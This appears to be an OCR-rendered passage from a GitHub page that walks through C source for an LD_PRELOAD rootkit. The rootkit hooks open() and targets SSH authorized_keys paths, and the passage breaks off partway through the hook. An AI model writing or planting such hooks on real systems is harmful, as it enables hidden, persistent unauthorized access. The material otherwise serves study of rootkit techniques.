 ## Detailed Behavior of the LD_PRELOAD Rootkit

This rootkit relies on the LD_PRELOAD environment variable to hijack the `open()` function call from the standard C library. Here's a breakdown of its logic and behavior:

```c
typedef int (*open_func_type)(const char *, int, ...);
static open_func_type orig_open = NULL;
```

A new function pointer type is defined for `open()`, allowing us to call the real `open()` after we hook it. orig_open will be initialized using dlsym() to point to the original function.

Target File Detection

```c
static int target(const char *pathname) {
    return pathname && (
        strcmp(pathname, "/root/.ssh/authorized_keys") == 0 ||
        strcmp(pathname, "authorized_keys") == 0 ||
        strcmp(pathname, ".ssh/authorized_keys") == 0
    );
}
```

The `target()` function checks if the file being accessed is the SSH authorized keys file. It performs a simple `strcmp()` against several known variants of the authorized_keys path.

Hooking the `open()` Function

```c
int open(const char *pathname, int flags, ...) {
```

This is our hook. Because the name matches `open()` and LD_PRELOAD is set, all calls to `open()` will now invoke this custom implementation.

```c
    if (!orig_open) {
        orig_open = (open_func_type)dlsym(RTLD_NEXT, "open");
        if (!orig_open) {
            fprintf(stderr, "Error loading original open: %s
", dlerror());
            exit(EXIT_FAILURE);
        }
    }
```

On the first call, we use `dlsym(RTLD_NEXT, "open")` to resolve the real `open()` function from the next link in the shared object chain. This avoids recursion.

```c
    if (flags & O_CREAT) {
        va_start(args, flags);
        mode = va_arg(args, int);
        va_end(args);
    }
```
